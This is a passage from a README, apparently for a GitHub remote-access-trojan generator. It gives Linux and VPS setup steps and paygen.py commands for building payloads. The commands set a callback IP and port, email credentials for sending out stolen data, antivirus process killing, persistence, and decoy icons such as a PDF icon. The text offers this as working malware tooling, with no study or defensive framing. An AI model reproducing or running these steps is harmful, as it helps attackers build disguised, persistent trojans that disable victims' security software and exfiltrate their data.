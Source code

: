 Default Path is this : `PYTHON_PYINSTALLER_PATH = os.path.expanduser("C:/Python37-32/Scripts/pyinstaller.exe")`

**Change it according to your system**

## How To Use in Linux
```bash
# Install dependencies 
$ Install latest python 3.x

# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/PushpenderIndia/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ bash installer_linux.sh

# If you are getting any errors while executing installer_linux.sh, try to install using installer_linux.py
$ python3 installer_linux.py

$ chmod +x paygen.py
$ python3 paygen.py --help

# Making Payload/RAT
$ python3 paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path

# Making Payload/RAT with Custom AVKiller [By Default, Tons of Know AntiVirus is added in Kill_Targets]
$ python3 paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path --kill_av AntiVirus.exe

# Making Payload/RAT with Custom Time to become persistence
$ python3 paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name --icon icon_path --persistence 10 

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## How To Use in VPS (Recommend)
```
# 1. Setup a VPS, You can buy Ubuntu VPS from any VPS Provider such as Digital Ocean, Linode, AWS, etc

# 2. Connect to your VPS Using SSH
$ ssh username@ip_address

# 3. Update Your Linux VPS
$ sudo apt update

# 4. Add Kali Linux Repository
$ sudo sh -c "echo 'deb https://http.kali.org/kali kali-rolling main non-free contrib' > /etc/apt/sources.list.d/kali.list"

# 5. Install gnupg package
$ sudo apt install gnupg
```